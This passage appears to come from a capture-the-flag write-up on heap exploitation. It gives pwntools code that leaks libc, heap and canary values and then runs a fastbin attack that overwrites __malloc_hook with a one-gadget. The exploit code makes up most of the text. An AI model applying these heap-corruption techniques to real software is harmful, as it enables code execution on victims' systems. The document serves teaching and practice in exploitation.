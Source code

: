 #### Stage 1. Leaking some information

Using some alignment in creating the chunk, we can easily leak the data we want.

```python
create(r, 0x40)
create(r, 0x8)
show(r)
leak = r.recvline()[:-1:]
leak = leak.ljust(8, "\x00")
l.address = u64(leak)-0x3c5540

create(r, 0x8)
show(r)
leak = r.recvline()[:-1:]
leak = leak.ljust(8, "\x00")
heap_base = u64(leak)-0xf0

for i in range(7):
    create(r, 0x20)
create(r, 0x8)

show(r)
leak = r.recvline()[:-1:]
leak = leak.ljust(8, "\x00")
canary = u64(leak) & 0xffffffffffffff00
```

#### Stage 2. Fastbin attack

To make malloc to return to an arbitrary address is a little bit tricky. malloc checks the size of the chunk that's pointed by fastbin's next free chunk, if the size of the next targeted chunk isn't satisfy `n < size < n + 0xf` (n is previous chunk's size) that malloc will return `fastbin corruption` error. Using technique from Quentinmeffre, we can pad a little bit to achieve arbitrary write to `__malloc_hook`.

```python
create(r, 0x10)
free(r)
create(r, 0x50)
free(r)
create(r, 0x10)
malloc_hook = l.symbols["__malloc_hook"]
realloc = l.symbols["__libc_realloc"]
one = l.address + ogt[0]
ploadx = p64(0)*2 + p64(canary) + p64(0) + p64(0x71) + p64(malloc_hook - 0x23)
edit(r, ploadx)
create(r, 0x50)
create(r, 0x50)
ploady = "\x00"*3 + p64(one) + p64(realloc+16)
edit(r, ploady)
```

We overwrite `__malloc_hook` with `realloc`+0x10 function because we need to set appropriate parameter for the one gadget function.

